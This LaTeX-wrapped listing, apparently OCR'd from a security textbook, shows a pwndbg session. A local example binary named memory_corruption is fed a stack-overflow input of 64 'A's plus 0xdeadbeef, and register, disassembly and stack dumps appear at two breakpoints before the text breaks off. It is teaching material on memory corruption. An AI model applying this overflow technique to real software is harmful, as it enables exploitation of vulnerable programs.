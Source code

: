 \documentclass{article}
\begin{document}
\begin{lstlisting}
pwndbg> r < <(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'")
Starting program: /home/devneal/Security/REFE/textbook/example_code/memory_corruption < <(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'")

Breakpoint 1, 0x000000000040067d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x400679 (main) ◂— push   rbp
 RBX  0x0
*RCX  0x0
*RDX  0x7fffffffdf98 —▸ 0x7fffffffe2e1 ◂— 'XDG_VTNR=7'
*RDI  0x1
*RSI  0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
*R8   0x400790 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x846
*R11  0x7ffff7a2d740 (__libc_start_main) ◂— push   r14
 R12  0x400550 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf80 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RIP  0x40067d (main+4) ◂— sub    rsp, 0x50
[───────────DISASM───────────]
   0x400679 <main>       push   rbp
   0x40067a <main+1>     mov    rbp, rsp
 ► 0x40067d <main+4>     sub    rsp, 0x50
   0x400681 <main+8>     mov    rax, qword ptr fs:[0x28]
   0x40068a <main+17>    mov    qword ptr [rbp - 8], rax
   0x40068e <main+21>    xor    eax, eax
   0x400690 <main+23>    lea    rax, [rbp - 0x50]
   0x400694 <main+27>    mov    edx, 0x40
   0x400699 <main+32>    mov    esi, 0
   0x40069e <main+37>    mov    rdi, rax
   0x4006a1 <main+40>    call   memset@plt                    <0x400510>
[────────────STACK────────────]
00:0000│ rbp rsp  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdea8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
02:0010│          0x7fffffffdeb0 ◂— 0x0
03:0018│          0x7fffffffdeb8 —▸ 0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
04:0020│          0x7fffffffdec0 ◂— 0x1f7ffcca0
05:0028│          0x7fffffffdec8 —▸ 0x400679 (main) ◂— push   rbp
06:0030│          0x7fffffffded0 ◂— 0x0
07:0038│          0x7fffffffded8 ◂— 0xe63b86020bb7205
[───────────BACKTRACE───────────]
 ► f 0           40067d main+4
   f 1     7ffff7a2d830 __libc_start_main+240
Breakpoint main
pwndbg> c
Continuing.
Enter the password:

Breakpoint 2, 0x00000000004006c9 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b04290 (__write_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
*RDI  0x400812 ◂— and    eax, 0x73 /* '%s' */
*RSI  0x7fffffffde50 ◂— 0x0
*R8   0x602000 ◂— 0x0
*R9   0xd
*R10  0x7ffff7dd1b78 (main_arena+88) —▸ 0x602410 ◂— 0x0
*R11  0x246
 R12  0x400550 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf80 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffde50 ◂— 0x0
*RIP  0x4006c9 (main+80) ◂— call   0x400530
[───────────DISASM───────────]
   0x4006b3 <main+58>    call   puts@plt                      <0x4004f0>
 

\end{lstlisting}
\end{document}
